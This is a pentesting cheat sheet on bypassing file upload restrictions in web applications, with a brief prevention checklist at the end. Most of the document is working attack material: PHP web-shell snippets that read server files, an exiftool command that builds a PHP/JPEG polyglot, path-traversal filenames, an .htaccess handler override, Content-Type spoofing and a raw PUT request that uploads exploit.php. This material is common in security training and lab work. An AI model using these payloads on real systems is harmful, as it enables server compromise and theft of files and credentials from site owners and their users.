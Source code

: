 # 

# File Upload Vulnerability

## ByPass Client Side Filterin

1. Turn of JavaScript But Make Sure the Website doesn't require Javascript in order to provide basic functionality.

2. Intercept and modify the incoming page. Using Burpsuite
   
   EX:
   
           1-Intercept on to get This Request 
           2-Right Click and choose -> Do Intercept
           3-Response This request 
           4-Forward
           5-And Delete JS code Filter

3. Send the file directly to the upload point.
   
   Why use the webpage with the filter,when you can send the file directly using a tool. like curl
   
       curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>

4. Edit Content-Type: header to
   
           1-Upload File With Accepted Extention
           2-Intercept This Request 
           3-Edit Content-Type to -> Content-Type:text/x-php or image/png -> would you want
           3-and Edit file Extention to what you want

5. File Upload via Path Traversal 
   
           Content-Disposition: form-data; name="avatar"; filename="../get_f_c.php"
           Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fget_f_c.php"
       
           GET /files/avatars/../get_f_c.php
           GET /files/avatars/..%2get_f_c.php

6. Test them using some uppercase letters
   
         pHp, .pHP5, .PhAr ...

7. using .htaccess file
   
   this file is the file of configration in appache you can add configration on it to accept any extension ike .shell , .test then you should aupload two fils file .htaccess 
   
   First file
   
       Content-Disposition: form-data; name="avatar"; filename=".htaccess"
       Content-Type: text/plain
       AddType application/x-httpd-php .shell
   
   Second flle 
   
       Content-Disposition: form-data; name="avatar"; filename="shell.shell"
       Content-Type: image/png
       <?php echo file_get_contents('/path/to/target/file'); ?>

--- 

## ByPass ServerSide Filtering

1. First You have to perform a lot of testing to build up an idea of what is or is not allowed through the filter.

2. Try All Possible Extention work for The Same Thing You Want https://book.hacktricks.xyz/pentesting-web/file-upload

3. Magic Numbers
   
   see this site To Know Your Extention Magic Number
   
   https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5
   
   https://en.wikipedia.org/wiki/List_of_file_signatures
   
   Use Any hex editor to Edit First bits. Like hexeditor
   
   | .jpg | ff d8 ff e0 |
   | ---- | ----------- |
   | .png | ff d8 ff e0 |
   
   or using exftool using this script
   
       exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
   
   use Command `file filename` to know if the magic Numbers work

4. Execute it before deleteing
   
    Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.
   
   That said, developers sometimes implement their own processing of file uploads independently of any framework. Not only is this fairly complex to do well, it can also introduce dangerous race conditions that enable an attacker to completely bypass even the most robust validation.
   
   For example, some websites upload the file directly to the main filesystem and then remove it again if it doesn't pass validation. This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware. This may only take a few milliseconds, but for the short time that the file exists on the server, the attacker can potentially still execute it.
   
   These vulnerabilities are often extremely subtle, making them difficult to detect during blackbox testing unless you can find a way to leak the relevant source code. 
   
   EX:
   
   [Lab: Web shell upload via race condition | Web Security Academy](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)

5. Outher Vulnerability
   
   ##### Uploading malicious client-side scripts
   
   Although you might not be able to execute scripts on the server, you may still be able to upload scripts for client-side attacks. For example, if you can upload HTML files or SVG images, you can potentially use `<script>` tags to create <u>stored XSS</u> payloads.
   
   If the uploaded file then appears on a page that is visited by other users, their browser will execute the script when it tries to render the page. Note that due to same-origin policy restrictions, these kinds of attacks will only work if the uploaded file is served from the same origin to which you upload it.
   
   ##### Exploiting vulnerabilities in the parsing of uploaded files
   
   If the uploaded file seems to be both stored and served securely, the last resort is to try exploiting vulnerabilities specific to the parsing or processing of different file formats. For example, you know that the server parses XML-based files, such as Microsoft Office `.doc` or `.xls` files, this may be a potential vector for <u>XXE injection</u> attacks.
   
   ### Uploading files using PUT
   
   It's worth noting that some web servers may be configured to support `PUT` requests. If appropriate defenses aren't in place, this can provide an alternative means of uploading malicious files, even when an upload function isn't available via the web interface.
   
       PUT /images/exploit.php HTTP/1.1
       Host: vulnerable-website.com
       Content-Type: application/x-httpd-php
       Content-Length: 49
       <?php echo file_get_contents('/path/to/file'); ?>
   
   Tip
   
   You can try sending `OPTIONS` requests to different endpoints to test for any that advertise support for the `PUT` method.

## How to prevent file upload vulnerabilities

Allowing users to upload files is commonplace and doesn't have to be dangerous as long as you take the right precautions. In general, the most effective way to protect your own websites from these vulnerabilities is to implement all of the following practices:

- Check the file extension against a whitelist of permitted extensions rather than a blacklist of prohibited ones. It's much easier to guess which extensions you might want to allow than it is to guess which ones an attacker might try to upload. 

- Make sure the filename doesn't contain any substrings that may be interpreted as a directory or a traversal sequence (`../`).

- Rename uploaded files to avoid collisions that may cause existing files to be overwritten. 

- Do not upload files to the server's permanent filesystem until they have been fully validated. 

- As much as possible, use an established framework for preprocessing file uploads rather than attempting to write your own validation mechanisms. 

